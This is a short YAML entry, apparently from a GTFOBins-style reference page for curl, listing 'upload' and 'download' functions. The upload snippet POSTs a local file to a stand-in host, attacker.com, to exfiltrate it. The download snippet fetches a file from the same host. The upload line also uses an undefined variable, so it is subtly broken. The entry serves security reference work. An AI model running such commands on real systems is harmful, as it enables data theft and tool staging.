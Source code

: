 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=where_to_save
        curl $URL -o $LFILE
---
```

